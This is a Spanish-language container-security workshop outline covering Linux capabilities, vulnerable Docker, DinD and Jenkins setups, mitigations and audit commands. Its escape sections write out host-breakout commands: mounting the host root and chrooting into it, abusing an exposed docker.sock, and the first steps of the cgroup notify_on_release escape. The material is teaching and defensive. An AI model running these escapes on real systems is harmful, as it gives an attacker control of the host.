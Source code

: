 # Seguridad en Contenedores: Capabilities y Escenarios de Escape
## Una Guía Práctica de Seguridad

### Prerequisitos
- Dockerhub account
- Laptop with web brower
- Docker basics

### Sección 1: Introducción (5 minutos)
- ¿Por qué esta presentación?
- Objetivos de aprendizaje
- Advertencias de seguridad
- Configuración del laboratorio

### Sección 2: Fundamentos de Seguridad (10 minutos)

#### 2.1 Componentes Básicos
- Namespaces
- cgroups
- Capabilities
- SecurityContexts

#### 2.2 ¿Qué son los Linux Capabilities?
```bash
# Ejemplo: Ver capabilities actuales
capsh --print

# Ejemplo: Contenedor sin capabilities
docker run --cap-drop=ALL nginx
```

### Sección 3: Linux Capabilities en Detalle (15 minutos)

#### 3.1 Capabilities Críticos
```bash
# Capabilities más peligrosos:
CAP_SYS_ADMIN        # Operaciones administrativas del sistema
CAP_NET_ADMIN        # Configuración de red
CAP_SYS_MODULE       # Cargar módulos del kernel
CAP_SYS_PTRACE       # Depurar procesos
CAP_SYS_CHROOT       # Usar chroot()
CAP_NET_RAW          # Usar raw sockets
CAP_SETUID           # Cambiar UID
CAP_SETGID           # Cambiar GID
CAP_MKNOD            # Crear archivos especiales
CAP_AUDIT_WRITE      # Escribir registros de auditoría
CAP_AUDIT_CONTROL    # Configurar auditoría
```

#### 3.2 Laboratorio: Explorando Capabilities
```bash
# Ver capabilities de un contenedor
docker inspect container_name | grep -A 10 CapAdd

# Agregar capabilities específicos
docker run --cap-add=SYS_ADMIN ubuntu

# Quitar todos y agregar solo los necesarios
docker run --cap-drop=ALL --cap-add=NET_BIND_SERVICE nginx
```

#### Docker Lab:

- [security-capabilities](https://training.play-with-docker.com/security-capabilities/)

### Sección 4: Escenarios Vulnerables Comunes (20 minutos)

#### 4.1 Docker in Docker (DinD)
```yaml
# ❌ Configuración vulnerable común
version: '3'
services:
  dind-vulnerable:
    image: docker:dind
    privileged: true
    volumes:
      - ./:/workspace
```

##### Demostración de Escape
![alt text](image-3.png)
```bash
# Desde dentro del contenedor DinD
docker run -v /:/host -it ubuntu  # Acceso total al host

# O peor aún, crear un contenedor privilegiado
docker run --privileged -it ubuntu

# Acceder al kernel del host
mkdir /tmp/cgroup
mount -t cgroup cgroup /tmp/cgroup
mkdir /tmp/cgroup/x
echo 1 > /tmp/cgroup/x/notify_on_release
```

#### 4.2 Jenkins con Docker
![alt text](image-2.png)
```yaml
# ❌ Jenkins con acceso inseguro a Docker
services:
  jenkins:
    image: jenkins/jenkins
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
      - jenkins_home:/var/jenkins_home
```

##### Demostración de Escape
```bash
# Desde dentro de Jenkins
docker run -v /:/hostfs alpine chroot /hostfs /bin/sh
```

#### 4.3 Desarrollo Local Inseguro
```bash
# ❌ Montajes peligrosos comunes
docker run -v ~/.ssh:/root/.ssh
docker run -v ~/.aws:/root/.aws
```

```bash
# Depuración con capabilities excesivos
docker run --cap-add=SYS_PTRACE -it ubuntu
docker run --cap-add=SYS_ADMIN -it ubuntu
```

### Sección 5: Técnicas de Escape (15 minutos)

#### 5.1 A través de Capabilities
```bash
# Ejemplo con CAP_SYS_ADMIN
docker run --cap-add=SYS_ADMIN -it ubuntu bash
mkdir /tmp/cgroup
mount -t cgroup cgroup /tmp/cgroup
# Continuar con ejemplo de escape...
```

#### 5.2 A través de Montajes
```bash
# Acceso al host mediante montajes
docker run -v /:/host -it ubuntu
cd /host && chroot .
```

#### 5.3 A través del Socket de Docker
![alt text](image.png)
```bash
# Usando el socket expuesto
docker run -v /var/run/docker.sock:/var/run/docker.sock -it ubuntu
# Instalar Docker CLI
apt update && apt install -y docker.io
# Crear nuevo contenedor privilegiado
docker run --privileged -it ubuntu
```

### Sección 6: Mitigaciones y Mejores Prácticas (15 minutos)

#### 6.1 Configuración Segura de DinD
```yaml
# ✅ DinD más seguro
version: '3'
services:
  dind-secure:
    image: docker:dind
    security_opt:
      - no-new-privileges:true
    cap_drop:
      - ALL
    cap_add:
      - CHOWN
      - DAC_OVERRIDE
      - SETGID
      - SETUID
    read_only: true
```

#### 6.2 Alternativas Seguras
```yaml
# ✅ Docker out of Docker (DooD)
services:
  dood:
    image: docker:latest
    user: "${UID}:${DOCKER_GID}" # Usuario no root con acceso a docker
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
```

#### 6.3 Jenkins Seguro
```yaml
# ✅ Jenkins con configuración segura
services:
  jenkins-secure:
    image: jenkins/jenkins
    user: jenkins
    group_add:
      - "${DOCKER_GID}"
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    security_opt:
      - no-new-privileges:true
    cap_drop:
      - ALL
    cap_add:
      - NET_BIND_SERVICE
```

### Seccion 7: Herramientas de auditoria
```bash
# Analizar capabilities de un contenedor
docker inspect <container_id> | jq '.[0].HostConfig.CapAdd'

# Verificar montajes
docker inspect <container_id> | jq '.[0].Mounts'

# Verificar privilegios
docker inspect <container_id> | jq '.[0].HostConfig.Privileged'
```

### Sección 8: Lista de Verificación de Seguridad (5 minutos)

#### Checklist Diario
- [ ] No usar --privileged
- [ ] Limitar capabilities
- [ ] Evitar montar docker.sock
- [ ] Usar usuarios no root
- [ ] Implementar read-only cuando sea posible
- [ ] Escanear imágenes regularmente
- [ ] Monitorear actividad sospechosa

